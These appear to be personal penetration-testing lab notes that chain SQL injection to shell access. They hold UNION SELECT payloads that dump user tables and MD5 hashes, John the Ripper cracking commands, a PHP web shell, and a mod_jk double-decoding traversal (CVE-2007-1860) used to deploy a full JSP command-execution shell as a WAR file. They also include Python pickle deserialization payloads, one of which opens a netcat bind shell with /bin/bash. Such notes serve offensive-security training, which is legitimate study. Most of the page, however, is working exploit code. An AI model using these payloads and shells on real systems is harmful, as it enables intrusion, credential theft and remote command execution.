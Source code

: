 ## PTL White Random Notes

#### From SQL Injection to Shell

- telnet vulnerable 80

```
GET / HTTP/1.1
Host: vulnerable 
```

- openssl s_client -connect vulnerable:443
- Burp suite proxy

- sudo apt update
- sudo apt install python3-pip
- sudo apt install libcurl4-openssl-dev libssl-dev
- pip install wfuzz
- vim .bashrc
- export PATH="/home/goenix/.local/bin:$PATH"
- wfuzz -c -z file,wordlist/general/big.txt --hc 404 https://pelotascore.com/FUZZ
- wfuzz -z file -f commons.txt --hc 404 http:pelotascore.com/FUZZ.php

- ORDER BY 3
- /cat.php?id=2+union+select+1,2,3,4--
- Oracle: UNION SELECT null,null,null FROM dual
- Other DBs: Oracle: UNION SELECT null,null,null
- /cat.php?id=2+union+select+id,login,password,id+from+users--

- /cat.php?id=1%20UNION%20SELECT%201,@@version,3,4
- /cat.php?id=1%20UNION%20SELECT%201,current_user(),3,4
- /cat.php?id=1%20UNION%20SELECT%201,database(),3,4

- /cat.php?id=1%20UNION%20SELECT%201,concat(table_name,':',column_name),3,4%20FROM%20information_schema.columns
- /cat.php?id=1%20UNION%20SELECT%201,concat(login,':',password),3,4%20FROM%20users

- admin:8efe310f9ab3efeae8d410a8e0166eb2 => Search engine to crack the MD5 password =>admin:P4ssw0rd
- John The Ripper => $ ./john password --format=raw-md5  --wordlist=dico --rules

- Upload a web shell =>

```
<?php
  system($_GET['cmd']);
?>
```

- /admin/uploads/shell.php3?c=cat /etc/passwd

##### CVE-2007-1860: mod_jk double-decoding

- /examples/jsp/%252e%252e/%252e%252e/manager/html

###### index.jsp
```
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

- jar -cvf ../webshell.war *
- Select WAR file to upload and take care of the double-encoding trick in the uplaod form
- Pay attention to tomcat CSRF protection/cookies

#### Pickle Code Execution

- sudo apt install python2
- ls /usr/bin/python*
- sudo update-alternatives --list python

###### hack.py
```
import cPickle
class Hack:
  def __init__(self):
    self.test1 = "test"  
    self.test2 = "retest"  
 
h = Hack()
print cPickle.dumps(h)
```

- python2 hack.py

###### blah.py
```
import cPickle
class Blah(object):
  def __reduce__(self):
    return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
b = Blah()
print cPickle.dumps(b)
```

- python2 blah.py | base64
 
###### score.py
```
import cPickle
class Blah(object):
  def __reduce__(self):
    return (os.system,("/usr/local/bin/score 39c0b5b5-3dab-4d9b-a685-27503157e66f",))
b = Blah()
print cPickle.dumps(b)
```

- python2 score.py | base64
- on windows => ubprocess with __import__
- Always concentrate more on custom code!
 
1. root domains dump them to a public repos
2. find every possible subdomain amass sublister
3. LiveTargetFinder massdns masscann nmap  
4. Wayback machine tomnomnom 






